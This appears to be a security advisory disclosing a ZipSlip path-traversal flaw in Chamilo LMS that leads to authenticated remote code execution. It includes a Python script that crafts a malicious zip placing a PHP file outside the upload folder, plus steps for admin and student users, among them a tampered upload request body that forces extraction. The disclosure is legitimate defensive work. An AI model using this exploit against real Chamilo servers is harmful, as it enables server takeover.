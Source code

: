 # Chamilo LMS Authenticated RCE via malicious zip file upload (ZipSlip)

* Versions: Chamilo v1.11, Chamilo v1.10 and earlier
* CVE: Awaiting Assignment
* [Chamilo Issue Description and Fix](https://support.chamilo.org/projects/chamilo-18/wiki/Security_issues#Issue-94-2022-09-06-High-impact-Moderate-risk-Authenticated-RCE-via-zipslip-attack-in-file-upload)

# Summary

Chamilo versions prior to v1.11.16 are vunerable to [ZipSlip vunerability](https://github.com/snyk/zip-slip-vulnerability) that can be exploited by crafting malicious zip file to gain RCE (Remote Code Execution). 

This issue can be exploited as both standard and administrative users although steps differ.

Reported to Chamilo 6th Sep 2022 via [Chamilo security issue reporting procedures](https://support.chamilo.org/projects/chamilo-18/wiki/Security_issues).

# Steps to reproduce

There are two main steps for this exploit:

* Create a malicious zip file
* Upload and trigger the extraction of the zip file as either user or admin

## Create a malicious zip file

First create a malicious zip file that will navigate two directories up using path transversal and place a PHP file with content you specify at this location.

The below Python3 script will create a zip file called badzip.zip that calls `phpinfo()` when accessed:

```
#!/usr/bin/python
import zipfile
z_info = zipfile.ZipInfo("../../info.php")
z_file = zipfile.ZipFile("badzip.zip", mode="w")
z_file.writestr(z_info, "<?php phpinfo();?>")
z_file.close()
```

The next steps differ depending on whether this is being done as a standard user or administrator (less steps).

## Admin RCE

1. Create a malicious zip file as above
1. Log-in as an administrative user
1. Create a new course or use an existing one
1. Go into the course
1. Go to documents
1. Select upload documents
1. Select Advanced Settings and ensure un-compress zip is selected (leave override file option on but dont think it matters)
1. Select the malicious zip file you created earlier
1. Click Upload File
1. The file will get uploaded and then extracted via the path to `/app` and can be accessed at `http://localhost/chamilo-1.11/app/info.php`

## User RCE

You will need a user login and to be assigned to at least one course with an assignment.

1. Create a malicious zip file as above
1. Log in as student user
1. Go to assignments
1. Select an assignment
1. Select Upload (Simple)
1. Give the item a title and select your malicious zip file
1. Next fire up a Proxy (e.g. Burp Community) as you'll need it to modify one of the requests before it is sent. Ensure you have the browser set to use the proxy if you have not already
1. Click upload
1. The proxy will capture the requests. 
1. Chamilo issues 3 requests to upload a file. 
1. Let the first 2 continue to Chamilo un-modified
1. On the 3rd and final request (the one that ends `action=finish` e.g. `/chamilo-1.11/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=finish`) we need to modify it so we can trick Chamilo into extracting the uploaded file even through extract functionality is not available in the UI for the student. To do this do the following:
* Change the origin parameter in the body to `document` 
* Add the following parameters: `unzip=1`, `if_exists=overwrite` and `curdirpath = "/"`
* Your final request body should look something like the following `key=3242343.tmp&name=badzip.zip&type=application/zip&size=182&origin=document&title=test&extension=&_qf__form-work=&contains_file=0&active=1&unzip=1&if_exists=overwrite&curdirpath=/&accepted=1&MAX_FILE_SIZE=2097152&id=1&sec_token=324234`
13. Send the modified request
14. The file will get uploaded and then extracted via the path to `/app` and can be accessed at `/chamilo-1.11/app/info.php`

---------------------------------
Alex Mackey 6th Sep 2022
